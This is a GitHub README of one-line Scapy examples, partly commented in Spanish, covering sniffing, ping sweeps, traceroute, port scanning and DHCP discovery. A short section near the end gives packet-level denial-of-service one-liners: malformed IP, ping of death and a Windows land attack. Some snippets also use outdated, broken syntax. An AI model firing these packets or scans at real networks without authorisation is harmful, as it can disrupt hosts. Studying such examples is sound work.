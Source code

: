 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs

examples - examples for official Scapy usage and more


## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## One line examples

Sniffing:
 
Sniffing on eth0:
```python
    sniff(iface="eth0",prn=lambda x: x.summary())
    sniff(iface="eth0",prn=lambda x: x.show())
```
	
Formated sniff output
```python
    pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
```
	
Identify ports
```python
    a=sniff(filter="tcp and ( port 25 or port 110 )",
    prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
```
 
TCP ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```

TCP ping:
```python
    ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
```
    
UDP ping
```python
    ans,unans=sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
```

ARP ping manual:
```python
	ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

ARP ping built in:
```python
	arping("192.168.1.1")
```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	//graficar
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

traceroute avanzado:
```python
	//saltandose cortafuegos-por el dns
	ans,unans=sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Dump traceroute output:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

Port scanner:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```
un ataquesillo:
	paquete mal formado:
	
```python
    send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
```
	
Ping of death:
```python
    send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
```

Land attack (windows):
```python
    send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```
 
verificandos DHCP de la red:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	//mostando
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html
